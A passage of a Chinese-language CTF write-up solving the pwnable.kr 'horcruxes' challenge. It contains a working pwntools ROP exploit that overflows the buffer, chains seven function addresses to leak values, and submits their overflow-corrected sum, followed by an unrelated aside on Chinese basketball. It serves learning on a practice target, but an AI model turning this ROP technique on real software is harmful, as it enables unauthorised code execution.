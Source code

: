 最终的思路就是跳转至程序正常逻辑，其地址没有`0x0a`，间接泄露7个数值相加后即可通过校验，但在进入`atoi`函数中需要注意其在转换超过`int`范围的数时会产生[未定义](http://www.cplusplus.com/reference/cstdlib/atoi/)的行为，可使用[ctypes](https://docs.python.org/2/library/ctypes.html)进行数据类型的转换，利用脚本如下：


```python
from ctypes import c_int
from pwn import *

context.arch = 'i386'
context.log_level = 'debug'

#p = process('/home/horcruxes/horcruxes')
r = remote('pwnable.kr', 9032) 

padding = 'A' * 0x78
A = 0x0809FE4B
B = 0x0809FE6A
C = 0x0809FE89
D = 0x0809FEA8
E = 0x0809FEC7
F = 0x0809FEE6
G = 0x0809FF05
ropme = 0x0809FFFC
stage1 = flat(padding, A, B, C, D, E, F, G, ropme,endianness='little', word_size=32, sign=False)

r.recvuntil('Menu:')
r.sendline('1')
r.recvuntil('earned? : ')
r.sendline(stage1)

s = 0 
for i in xrange(7):
    r.recvuntil('EXP +')
    s += int(r.recvline()[:-2])
    #s &= 0xffffffff

s = c_int(s).value
r.recvuntil('Menu:')
r.sendline('1')
r.recvuntil('earned? : ')
r.sendline(str(s))
print r.recvline()
```

# 0x02 总结

这次篮球世界杯中国队恐怕只有易建联才过得安心，其他年轻球员的表现只能让评论员说是浪费了三年的光阴。战士上战场，老是混，就等着死吧。希望能坚持下去，做得多，这样可以看得多，自然想得多，可惜就是犯了贪念啊。
